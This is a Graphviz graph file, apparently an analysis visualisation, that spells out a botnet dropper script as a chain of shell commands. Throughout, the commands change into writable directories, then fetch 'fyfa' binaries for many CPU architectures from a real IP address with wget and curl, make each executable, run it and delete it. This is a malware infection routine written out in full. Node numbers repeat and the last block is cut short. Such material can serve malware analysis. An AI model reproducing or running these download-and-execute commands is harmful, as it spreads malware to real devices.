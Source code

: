 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://138.197.69.3/fyfa.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://138.197.69.3/fyfa.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x fyfa.mips "];
14 -> 16 [label=";,"];
16 [label="./fyfa.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf fyfa.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://138.197.69.3/fyfa.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://138.197.69.3/fyfa.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x fyfa.mpsl "];
34 -> 36 [label=";,"];
36 [label="./fyfa.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf fyfa.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://138.197.69.3/fyfa.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://138.197.69.3/fyfa.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x fyfa.sh4 "];
54 -> 56 [label=";,"];
56 [label="./fyfa.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf fyfa.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://138.197.69.3/fyfa.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://138.197.69.3/fyfa.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x fyfa.x86 "];
74 -> 76 [label=";,"];
76 [label="./fyfa.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf fyfa.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://138.197.69.3/fyfa.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://138.197.69.3/fyfa.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x fyfa.arm "];
94 -> 96 [label=";,"];
96 [label="./fyfa.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf fyfa.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://138.197.69.3/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://138.197.69.3/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf fyfa.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://138.197.69.3/fyfa.i686 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://138.197.69.3/fyfa.i686 "];
132 -> 134 [label=";,"];
134 [label="chmod +x fyfa.i686 "];
134 -> 136 [label=";,"];
136 [label="./fyfa.i686 "];
136 -> 138 [label=";,"];
138 [label="rm -rf fyfa.i686 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://138.197.69.3/fyfa.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://138.197.69.3/fyfa.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x fyfa.i586 "];
154 -> 156 [label=";,"];
156 [label="./fyfa.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf fyfa.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://138.197.69.3/fyfa.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://138.197.69.3/fyfa.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x fyfa.m68k "];
174 -> 176 [label=";,"];
176 [label="./fyfa.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf fyfa.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://138.197.69.3/fyfa.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://138.197.69.3/fyfa.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x fyfa.spc "];
194 -> 196 [label=";,"];
196 [label="./fyfa.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf fyfa.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://138.197.69.3/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://138.197.69.3/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
}
